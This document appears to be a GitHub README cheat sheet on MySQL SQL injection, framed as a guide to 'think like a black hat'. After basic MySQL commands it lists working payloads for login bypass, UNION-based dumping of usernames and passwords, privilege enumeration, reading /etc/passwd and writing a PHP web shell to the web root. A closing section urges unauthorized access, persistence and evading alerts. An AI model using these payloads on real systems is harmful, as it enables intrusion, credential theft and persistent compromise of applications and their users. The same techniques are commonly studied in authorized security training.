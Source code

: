 # Basic Methodology - SQL Injection

Welcome to the SQL Injection guide! This README explores SQL injection techniques targeting MySQL databases, covering general database operations, authentication bypass, union-based injection, database enumeration, privilege checks, and file injection. Think like a black hat—exploit SQL vulnerabilities to extract data, escalate privileges, and gain unauthorized access with stealth.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [General MySQL Operations](#general-mysql-operations)
  - [Connecting to MySQL](#connecting-to-mysql)
  - [Database Management](#database-management)
  - [Table Management](#table-management)
  - [Column Management](#column-management)
  - [Query Output Control](#query-output-control)
- [SQL Injection Techniques](#sql-injection-techniques)
  - [Authentication Bypass](#authentication-bypass)
  - [Union-Based Injection](#union-based-injection)
  - [Database Enumeration](#database-enumeration)
  - [Privilege Enumeration](#privilege-enumeration)
  - [File Injection](#file-injection)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

SQL injection (SQLi) is a technique that exploits vulnerabilities in applications by injecting malicious SQL queries, allowing attackers to bypass authentication, extract data, enumerate databases, check privileges, and manipulate files. This guide focuses on MySQL, covering general database operations and SQLi payloads for exploitation.

## Setup and Prerequisites

- **Environment**: Linux host with MySQL client; access to a vulnerable MySQL database (e.g., via a web application).
- **Tools**: Install mysql client (e.g., `apt install mysql-client`).
- **Target**: Identify a vulnerable MySQL database (e.g., hosted at docker.eu:3306).
- **Credentials**: Have default credentials ready (e.g., root) or use SQLi to bypass authentication.
- **Knowledge**: Understand MySQL operator precedence:
  - Division (`/`), Multiplication (`*`), Modulus (`%`)
  - Addition (`+`), Subtraction (`-`)
  - Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
  - NOT (`!`)
  - AND (`&&`)
  - OR (`||`)

## General MySQL Operations

### Connecting to MySQL

Access a MySQL database.

```bash
$ mysql -u root -h docker.eu -P 3306 -p  # Logs into MySQL at docker.eu:3306 as user root, prompting for a password (Linux)
```

### Database Management

Manage MySQL databases.

```sql
SHOW DATABASES;  # Lists all available databases
USE users;       # Switches to the users database
```

### Table Management

Create, view, and modify tables.

```sql
CREATE TABLE logins (id INT, ...);  # Creates a table named logins with an id column of type INT
SHOW TABLES;                        # Lists all tables in the current database
DESCRIBE logins;                    # Shows properties and columns of the logins table
INSERT INTO table_name VALUES (value_1, ...);  # Adds a row to table_name
INSERT INTO table_name(column2, ...) VALUES (column2_value, ...);  # Adds values to specific columns
UPDATE table_name SET column1=newvalue1, ... WHERE <condition>;    # Updates rows based on a condition
DROP TABLE logins;                  # Deletes the logins table
```

### Column Management

Modify table columns.

```sql
SELECT * FROM table_name;  # Shows all columns in table_name
SELECT column1, column2 FROM table_name;  # Shows specific columns
ALTER TABLE logins ADD newColumn INT;     # Adds a new column newColumn
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn;  # Renames newColumn to oldColumn
ALTER TABLE logins MODIFY oldColumn DATE;  # Changes oldColumn to type DATE
ALTER TABLE logins DROP oldColumn;         # Deletes oldColumn
```

### Query Output Control

Control how query results are displayed.

```sql
SELECT * FROM logins ORDER BY column_1;  # Sorts results by column_1
SELECT * FROM logins ORDER BY column_1 DESC;  # Sorts by column_1 in descending order
SELECT * FROM logins ORDER BY column_1 DESC, id ASC;  # Sorts by column_1 (descending) and id (ascending)
SELECT * FROM logins LIMIT 2;  # Shows only the first two results
SELECT * FROM logins LIMIT 1, 2;  # Shows two results starting from index 2
SELECT * FROM table_name WHERE <condition>;  # Filters results based on a condition
SELECT * FROM logins WHERE username LIKE 'admin%';  # Filters results where username starts with admin
```

## SQL Injection Techniques

### Authentication Bypass

Bypass login mechanisms with SQLi payloads.

```sql
admin' or '1'='1    # Basic auth bypass by making the query always true
admin')-- -         # Bypasses auth with comments to ignore the rest of the query
```

### Union-Based Injection

Extract data by appending results with UNION.

```sql
' order by 1-- -    # Detects the number of columns by incrementing until an error occurs
cn' UNION select 1,2,3-- -    # Confirms the number of columns (e.g., 3 columns)
cn' UNION select 1,@@version,3,4-- -    # Retrieves the MySQL version
UNION select username, 2, 3, 4 from passwords-- -    # Extracts username from the passwords table (4 columns)
```

### Database Enumeration

Enumerate database details.

```sql
SELECT @@version;    # Fingerprints the MySQL version
SELECT SLEEP(5);     # Fingerprints MySQL by delaying response (no output)
cn' UNION select 1,database(),2,3-- -    # Retrieves the current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -    # Lists all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -    # Lists tables in the dev database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -    # Lists columns in the credentials table
cn' UNION select 1, username, password, 4 from dev.credentials-- -    # Dumps username and password from dev.credentials
```

### Privilege Enumeration

Check user privileges and configurations.

```sql
cn' UNION SELECT 1, user(), 3, 4-- -    # Retrieves the current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -    # Checks if root has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -    # Lists all privileges for root
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -    # Identifies accessible directories via MySQL
```

### File Injection

Read and write files using MySQL.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -    # Reads the /etc/passwd file
select 'file written successfully!' into outfile '/var/www/html/proof.txt';    # Writes a string to proof.txt
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -    # Writes a PHP web shell to /var/www/html/shell.php
```

## Black Hat Mindset

- **Bypass Authentication**: Use simple payloads to gain unauthorized access.
- **Extract Data**: Leverage UNION injections to dump sensitive data from databases.
- **Enumerate Thoroughly**: Map out databases, tables, and columns to identify valuable targets.
- **Escalate Privileges**: Check for admin privileges and accessible directories to expand control.
- **Gain Persistence**: Write web shells to maintain access.
- **Stay Silent**: Use legitimate SQL queries to avoid triggering alerts.

## Resources

- [MySQL Documentation](https://dev.mysql.com/doc/)
- [SQL Injection Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

